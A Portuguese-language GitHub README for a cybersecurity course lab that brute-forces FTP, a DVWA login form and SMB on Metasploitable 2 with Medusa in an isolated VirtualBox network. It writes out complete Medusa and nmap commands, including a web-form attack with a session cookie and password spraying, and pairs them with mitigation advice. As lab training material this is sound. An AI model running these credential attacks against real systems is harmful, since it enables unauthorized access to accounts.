

# 🧪 Medusa-Brute-Force-Lab
<p align="center">
  
  <a href="https://github.com/panda12332145/Medusa-Brute-Force-Lab/commits/main"></a>
  <a href="https://github.com/panda12332145/Medusa-Brute-Force-Lab"></a>
  
  
</p>
---
> ⚠️ **Laboratório autorizado apenas.** Os alvos (Metasploitable, DVWA) rodam em **rede isolada do VirtualBox** — nunca aponte a ferramenta para sistemas reais sem autorização escrita.

---
## 🔖 Resumo

Projeto prático de cibersegurança (desafio DIO) simulando **ataques de força bruta com a ferramenta Medusa** contra FTP, formulário web (DVWA) e SMB em laboratório controlado — com topologia de rede, passo a passo, resultados esperados, medidas de mitigação e evidências documentadas.

### ✨ Funcionalidades Principais

- ✅ Topologia de rede documentada (Metasploitable + DVWA)
- ✅ Ataque a FTP com wordlists próprias
- ✅ Ataque ao formulário de login do DVWA
- ✅ Enumeração SMB + password spraying
- ✅ Seção de mitigação e lições aprendidas
- ✅ Evidências com screenshots

## 📽 Demonstração

```text
$ medusa -h 192.168.56.101 -u admin -P wordlists/passwords.txt -M ftp
[ACCOUNT]  Username: admin  Password: admin  Host: 192.168.56.101

# Evidências: ftp-attack.png, dvwa-login.png, smb-enum.png, medusa-success.png
```

## ⚙️ Explicação das Partes Importantes

### Topologia do laboratório

```markdown
| Máquina       | Papel            | IP              |
|---------------|------------------|-----------------|
| Kali          | Atacante         | 192.168.56.100  |
| Metasploitable 2 | Alvo vulnerável | 192.168.56.101  |
| DVWA          | App web vulnerável | 192.168.56.101/dvwa |
```

> Rede interna do VirtualBox — isolada da internet, o único cenário legítimo para estes testes.

### Wordlists do lab

```txt
wordlists/users.txt       # usuarios de teste
wordlists/passwords.txt   # senhas de teste
wordlists/smb-users.txt   # enum SMB
smb_test.sh / ftp_test.sh # scripts de ataque reaproveitáveis
```

> Scripts reutilizáveis padronizam cada cenário — reprodução fácil do laboratório.

###Topologia do Laboratorio

| Componente | Funcao | Exemplo de IP |
| --- | --- | --- |
| Kali Linux | Maquina atacante/auditoria | `192.168.56.10` |
| Metasploitable 2 | Alvo vulneravel | `192.168.56.101` |
| DVWA | Aplicacao web vulneravel | `192.168.56.101/dvwa` |

Rede recomendada: VirtualBox em modo `Host-only Adapter`, isolada da internet para as VMs do laboratorio.

---

###Pre-requisitos

- VirtualBox instalado;
- VM Kali Linux;
- VM Metasploitable 2;
- DVWA configurado no ambiente vulneravel;
- Ferramentas no Kali:

```bash
sudo apt update
sudo apt install -y medusa nmap smbclient ftp curl
```

---

###1. Configuracao da Rede

1. Desligue as VMs.
2. No VirtualBox, configure as duas VMs com `Host-only Adapter`.
3. Inicie Kali e Metasploitable 2.
4. Descubra os IPs:

```bash
ip addr
```

5. Teste conectividade a partir do Kali:

```bash
ping -c 4 192.168.56.101
```

6. Enumere os servicos principais:

```bash
nmap -sV -p 21,80,139,445 192.168.56.101
```

Mais detalhes estao em [notes/network-setup.md](notes/network-setup.md).

---

###2. Teste FTP com Medusa

Wordlists usadas:

- [wordlists/users.txt](wordlists/users.txt)
- [wordlists/passwords.txt](wordlists/passwords.txt)

Execucao manual:

```bash
medusa -h 192.168.56.101 -U wordlists/users.txt -P wordlists/passwords.txt -M ftp -f -O results/ftp-medusa.txt
```

Ou usando o script:

```bash
chmod +x scripts/ftp_test.sh
./scripts/ftp_test.sh 192.168.56.101
```

Validacao de acesso, se uma credencial for encontrada:

```bash
ftp 192.168.56.101
```

Evidencia sugerida: salvar uma captura como `images/ftp-attack.png`.

---

###3. DVWA: Formulario Web

O Medusa possui o modulo `web-form`, que permite configurar rota, parametros enviados e texto de falha. No DVWA, a sessao e o nivel de seguranca influenciam diretamente o resultado.

Fluxo recomendado:

1. Acesse `http://192.168.56.101/dvwa`.
2. Configure o DVWA para nivel `low`.
3. Capture ou identifique o cookie `PHPSESSID`.
4. Teste o formulario de brute force em `/dvwa/vulnerabilities/brute/`.
5. Ajuste `DENY-SIGNAL` conforme a mensagem exibida na sua instalacao.

Exemplo didatico:

```bash
SESSIONID="cole_o_phpsessid_aqui"

medusa -h 192.168.56.101 \
  -u admin \
  -P wordlists/passwords.txt \
  -M web-form \
  -m USER-AGENT:"Mozilla/5.0" \
  -m FORM:"/dvwa/vulnerabilities/brute/" \
  -m DENY-SIGNAL:"Username and/or password incorrect." \
  -m FORM-DATA:"get?username=&password=&Login=Login" \
  -m CUSTOM-HEADER:"Cookie: PHPSESSID=${SESSIONID}; security=low" \
  -f \
  -O results/dvwa-medusa.txt
```

Anotacoes adicionais: [scripts/dvwa_notes.txt](scripts/dvwa_notes.txt).

Evidencia sugerida: salvar uma captura como `images/dvwa-login.png`.

---

###4. SMB: Enumeracao e Password Spraying

Enumere portas e scripts SMB:

```bash
nmap -p 139,445 --script smb-enum-users,smb-os-discovery 192.168.56.101
```

Teste manual de password spraying com uma senha por vez:

```bash
medusa -h 192.168.56.101 -U wordlists/smb-users.txt -p password -M smbnt -f -O results/smb-spray.txt
```

Ou usando o script:

```bash
chmod +x scripts/smb_test.sh
./scripts/smb_test.sh 192.168.56.101 password
```

Validacao opcional:

```bash
smbclient -L //192.168.56.101 -U usuario
```

Evidencia sugerida: salvar uma captura como `images/smb-enum.png`.

---

###Resultados Esperados

Durante os testes, registre:

- IPs das VMs;
- Servicos encontrados pelo Nmap;
- Comandos executados;
- Credenciais validas, se encontradas no laboratorio;
- Prints das telas e terminal;
- Medidas de mitigacao.

Crie a pasta `results/` localmente para armazenar saidas. Ela esta no `.gitignore` para evitar publicar credenciais acidentalmente.

```bash
mkdir -p results
```

---

###Medidas de Mitigacao

Resumo:

- Senhas fortes e unicas;
- Bloqueio temporario apos tentativas falhas;
- MFA onde for possivel;
- Desativar servicos desnecessarios;
- Atualizar servicos e sistemas;
- Monitorar logs de autenticacao;
- Restringir acesso por rede;
- Usar politicas contra senhas comuns.

Detalhes em [notes/mitigation.md](notes/mitigation.md).

---

###Evidencias

As imagens em `images/` sao placeholders. Substitua pelos seus prints reais:

- `kali.png`: tela da VM Kali;
- `metasploitable.png`: tela da VM Metasploitable;
- `ftp-attack.png`: execucao do Medusa contra FTP;
- `dvwa-login.png`: tela do DVWA;
- `smb-enum.png`: enumeracao SMB;
- `medusa-success.png`: exemplo de sucesso no laboratorio.

---

###Conclusao

O laboratorio demonstra que credenciais fracas continuam sendo um vetor de risco importante. A pratica reforca que ferramentas como Medusa devem ser usadas em auditorias autorizadas e que controles simples, como senhas fortes, limitacao de tentativas e monitoramento, reduzem bastante a exposicao.

---

###Referencias

- Kali Linux: https://www.kali.org/
- DVWA: https://github.com/digininja/DVWA
- Medusa: https://jmk-foofus.github.io/medusa/medusa.html
- Nmap Reference Guide: https://nmap.org/book/man.html
- GitHub Markdown: https://docs.github.com/pt/get-started/writing-on-github

## 🔄 Fluxo de Trabalho / Arquitetura



## 📂 Estrutura do Projeto

```plaintext
Medusa-Brute-Force-Lab/
├── README.md               # Passo a passo completo
├── network-setup.md        # Configuração da rede
├── mitigation.md           # Medidas de mitigação
├── lessons-learned.md      # Lições aprendidas
├── dvwa_notes.txt
├── ftp_test.sh smb_test.sh # Scripts de ataque
├── wordlists/ (users, passwords, smb-users)
├── *.png                   # Evidências
└── LICENSE
```

## 🛠️ Tecnologias

| Ferramenta | Uso |
|---|---|
| **Medusa** | Ferramenta de força bruta multi-protocolo |
| **VirtualBox** | Laboratório virtualizado |
| **Metasploitable 2 + DVWA** | Alvos de estudo |
| **Bash** | Scripts de automação |

## ▶️ Instalação

```bash
# no Kali (host de ataque):
sudo apt install medusa
# importe as VMs e siga network-setup.md

git clone https://github.com/panda12332145/Medusa-Brute-Force-Lab.git
```

## 🚀 Execução

```bash
# exemplo - FTP:
medusa -h 192.168.56.101 -u admin -P wordlists/passwords.txt -M ftp
# exemplos completos: seções 2 a 4 do README
```

## 🧪 Testes

Validação por cenário: credencial encontrada → acesso confirmado (screenshot em `evidencias`). Ver `lessons-learned.md`.

## ⚠️ Limitações

- Ambiente VirtualBox host-only (não reproduzível em cloud sem ajustes)
- Wordlists pequenas (fins didáticos)
- Alvos descontinuados (Metasploitable 2 legado)

## 🚀 Roadmap

- [ ] DVWA em nível médio
- [ ] Cenário Hydra para comparação
- [ ] Relatório automatizado de evidências

## 📄 Licença

Distribuído sob a licença do arquivo [`LICENSE`](LICENSE).

---

## 👾 Autor

<p align="center">
  
</p>

<p align="center">Feito por <strong>Panda12332145</strong> 👋🏽</p>

---

## 🧑‍💻 Sobre Mim

Sou apaixonado por **Física Teórica, Cibersegurança e Desenvolvimento de Sistemas**. Tenho grande interesse em programação de baixo nível, engenharia reversa, automação, sistemas Windows, criptografia e segurança ofensiva. Também gosto bastante de música, filosofia e computação avançada.

---

## 🌐 Redes

* **Site:** [https://panda-h0me.netlify.app/](https://panda-h0me.netlify.app/)
* **YouTube:** [https://www.youtube.com/@X86BinaryGhost](https://www.youtube.com/@X86BinaryGhost)
* **Instagram:** [https://www.instagram.com/01pandal10/](https://www.instagram.com/01pandal10/)
* **GitHub:** [https://github.com/panda12332145](https://github.com/panda12332145)
* **LinkedIn:** [linkedin.com/in/athos-da-boanergis](https://www.linkedin.com/in/athos-d%C3%A3-boanergis-5585a4288/)

---

## 🚀 Áreas de Interesse

* **Cibersegurança Avançada** 🔒
* **Hacking & Engenharia Reversa** 💻
* **Computação de Baixo Nível** 🖥️
* **Matemática e Física Teórica** 📐⚛️
* **Desenvolvimento de Ferramentas de Segurança** 🛠️

_"Conhecimento é poder, e domínio técnico vem da compreensão profunda dos sistemas."_

---

## 📞 Contato & Suporte

Para colaborações, dúvidas ou sugestões:

📧 **E-mail:** [athos.cybersec@gmail.com](mailto:athos.cybersec@gmail.com)

🐛 **Reportar Bug:** [Abrir Issue](https://github.com/panda12332145/Medusa-Brute-Force-Lab/issues)

💡 **Sugerir Melhoria:** [Discussions](https://github.com/panda12332145/Medusa-Brute-Force-Lab/discussions)

## 📊 Métricas

<!-- metrics:start -->
| Métrica | Valor |
|---|---|
| ⭐ Stars | 0 |
| 🍴 Forks | 0 |
| 📌 Issues abertas | 0 |
| 🕐 Último commit | 2026-09-30 |
<!-- metrics:end -->
